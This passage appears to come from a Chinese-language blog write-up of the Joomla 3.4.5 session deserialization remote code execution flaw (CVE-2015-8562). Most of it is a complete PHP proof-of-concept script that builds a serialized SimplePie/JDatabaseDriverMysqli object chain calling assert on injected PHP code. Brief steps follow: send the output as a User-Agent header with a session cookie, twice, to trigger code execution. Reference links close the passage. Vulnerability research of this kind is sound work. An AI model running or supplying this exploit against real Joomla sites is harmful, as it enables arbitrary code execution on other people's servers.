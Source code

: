 ```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏**数据进入Mysql数据库**。

然后同样的包**再发一次**，我们的代码被执行：

![](https://i.loli.net/2021/02/13/Lhlf4DN5pH7erMv.png)

参考

[Joomla远程代码执行漏洞分析（总结） | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html#session)

[Joomla 3.4.5 反序列化漏洞（CVE-2015-8562) 分析 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/64017530)

